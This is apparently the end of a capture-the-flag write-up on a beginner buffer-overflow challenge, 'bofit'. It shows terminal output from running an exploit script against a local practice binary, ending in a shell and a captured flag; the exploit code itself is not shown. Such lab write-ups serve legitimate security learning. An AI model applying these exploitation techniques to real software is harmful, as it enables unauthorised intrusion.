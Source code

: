 On running it

```
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/bofit]
└─$ python2 exploit.py
[+] Starting local process './bofit': pid 97102
Welcome to BOF it! The game featuring 4 hilarious commands to keep players on their toes
You'll have a second to respond to a series of commands
BOF it: Reply with a capital 'B'
Pull it: Reply with a capital 'P'
Twist it: Reply with a capital 'T'
Shout it: Reply with a string of at least 10 characters
BOF it to start!

BOF it!

Twist it!

BOF it!

Twist it!

BOF it!

Shout it!

Pull it!
[*] Switching to interactive mode

FLAG{Y0U_KN0W_PWN}
[*] Got EOF while reading in interactive
$
```

And we're done 

<br> <br> 
[Back To Home](../../index.md)
